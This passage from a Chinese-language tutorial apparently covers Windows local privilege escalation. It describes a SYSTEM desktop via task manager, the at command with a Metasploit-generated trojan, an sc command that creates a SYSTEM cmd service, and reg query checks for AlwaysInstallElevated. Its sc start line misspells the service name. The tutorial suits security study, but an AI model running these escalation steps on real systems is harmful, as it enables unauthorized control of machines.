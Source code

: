 在得到一个system的cmd之后，使用 taskmgr 命令调用任务管理器，此时的任务管理器是system权限，然后kill掉explore进程，再使用任务管理器新建explore进程，将会得到一个system的桌面环境

![](https://minioapi.nerubian.cn/image/20250410152609962.png)

#### 3.1.2 at 配合 msf提权

msf下生成木马文件，at命令执行运行程序，上线后即为system

![](https://minioapi.nerubian.cn/image/20250410152612303.png)

### 3.2 windows 7/8、03/08、12/16

#### 3.2.1 sc命令提权

关于sc命令： SC 是用于与服务控制管理器和服务进行通信的命令行程序。提供的功能类似于“控制面板”中“管理工具”项中的“服务”。

```dos
sc Create syscmd binPath= "cmd /K start" type= own type= interact
```

这个命令的意思是创建一个名叫 syscmd 的新的交互式的 cmd 服务，然后执行以下命令，就得到了一个system权限的cmd环境：

```powershell
sc start systcmd
```

#### 3.2.2 AlwaysInstallElevated

AlwaysInstallElevated 是一种允许非管理用户以SYSTEM权限运行Microsoft Windows安装程序包（.MSI文件）的设置。默认情况下禁用此设置，需系统管理员手动启用他。

可以通过查询以下注册表项来识别此设置：

```csharp
[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer] “AlwaysInstallElevated”=dword:00000001
[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer] “AlwaysInstallElevated”=dword:00000001
```

使用reg query命令查询是否存在漏洞

```bash
C:> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
or
C:> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

如果系统没这个漏洞，它将输出错误:

```vbnet
ERROR: The system was unable to find the specified registry key or value.
```

如果存在漏洞，上面将输出以下内容:

![](https://minioapi.nerubian.cn/image/20250410152615683.png)
